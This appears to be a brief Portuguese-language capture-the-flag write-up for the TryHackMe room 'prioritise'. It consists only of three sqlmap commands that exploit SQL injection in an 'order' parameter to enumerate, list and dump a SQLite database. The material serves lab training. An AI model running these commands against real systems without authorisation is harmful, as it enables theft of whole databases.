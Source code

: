 https://tryhackme.com/room/prioritise

Só rodar os comandos abaixo

```sh
sqlmap -u http://IP/?order=title --dbs --level 5 --risk 3    
sqlmap -u http://IP/?order=title --dbms=SQLite --tables --level 5 --risk 3 --threads=10  
sqlmap -u http://IP/?order=title --dbms=SQLite --dump-all --level 5 --risk 3 --threads=10
```

